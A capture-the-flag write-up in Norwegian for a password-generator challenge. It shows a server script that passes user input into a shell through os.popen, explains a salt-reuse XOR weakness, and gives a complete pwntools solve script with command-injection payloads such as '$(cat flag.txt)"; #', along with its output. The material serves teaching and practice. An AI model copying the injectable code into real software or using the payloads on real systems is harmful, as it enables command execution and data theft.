

# Sikker passord generator

> Sikker passord generator
>
> Viser seg at det var en liten feil i første versjon av min passord generator, ved å legge inn litt mer komplisert generering tror jeg den nå er trygg. Bare å benytte deg av den nå for å lage passord!
>
> ctf.uiactf.no:5003
>
> File: `server.py`



---

Dette er en videreutviklet versjon av `Passord generator`, se writeup for mer detaljer.

`server.py`
```python
#!/usr/bin/python3
import random
import os

super_salt = str(random.getrandbits(50) + 1)

print("Velkommen til min superpassordmaskin9000v2!\n\
Gi meg en string som skal være med på å lage et nytt passord så skal jeg gi deg et skikkelig godt passord tilbake.\n\
(Begrenset til kun 2 ganger hver sesjon pga. sikkerhet..)")

for encryption_rounds in range(2):

    print(f"String:")
    input_from_client = input('> ')
    sha256_output = os.popen(f'echo "{input_from_client}" | sha256sum').read()
    
    i = 0
    while len(super_salt) < len(sha256_output):
        super_salt += super_salt[i]
        i += 1

    new = [(hex(ord(a) ^ ord(b)))[2:] for a,b in zip(super_salt, sha256_output)]


    print(f"Her er ditt gode password:\n> {''.join(new)}")
```

Vi har fortsatt samme `command line injection`-sårbarheten. Forskjellen denne gangen er at output'en blir `XOR`'et med et random salt.

Sårbarheten her er at vi får lov å generere to passord i slengen og at samme saltet benyttes begge gangene.

Ved å sende inn en kjent string, f.eks. X antall mellomrom, kan vi ved å `XOR`e outputten vi får tilbake med den kjente strengen vår, finne det opprinnelige saltet.

Når vi da sender inn en payload for å lese ut flagget vil vi få ut flagget `XOR`et med samme salt som sist, som vi nå besitter.

Da `XOR`'er vi flaggdataen med saltet og vipps så har vi flagget.

Vi må fortsatt huske å omgå ` | sha256sum` i kommandolinjen ved å benytte `"; #` i slutten av payloaden vår. Det gjelder også den opprinnelige payloaded med kjent input.

`solve.py`
```python
from binascii import unhexlify
from pwn import *

io = connect("ctf.uiactf.no", 5003)
io.recvuntil(b'> ').decode()

# Send 50 mellomrom (0x20) og avslutt med '"; #' for å bypasse sha256sum
io.sendline(b'\x20' * 50 + b'"; #')

# Motta nøkkel XOR'ed med 0x20
io.recvline().decode()
io.recvuntil(b'> ').decode()
key_xor_space = io.recvline(False).decode()
#print(key_xor_space)
key_xor_space = unhexlify(key_xor_space)
#print(key_xor_space)

io.recvuntil(b'> ').decode()

# Send payload for å lese ut flagg
io.sendline(b'$(cat flag.txt)"; #')

# Motta flagg XOR'ed med nøkkel
io.recvline().decode()
io.recvuntil(b'> ').decode()
flag_xor_key = io.recvline(False).decode()
#print(flag_xor_key)
flag_xor_key = unhexlify(flag_xor_key)
#print(flag_xor_key)

# XOR nøkkel med 0x20 for å finne ekte nøkkel
key = [i ^ 0x20 for i in key_xor_space]

# XOR flagg med ekte nøkkel for å finne flagg
flag = [flag_xor_key[i] ^ key[i] for i in range(len(flag_xor_key))]

# print(key_xor_space)
# print(key)
# print(flag_xor_key)
# print(flag)
print(''.join(map(chr, flag)))
```

La oss teste:

```bash
$ python solve.py 
[+] Opening connection to ctf.uiactf.no on port 5003: Done
UIACTF{two_times_are_one_too_many}
```


## Flagg
`UIACTF{two_times_are_one_too_many}
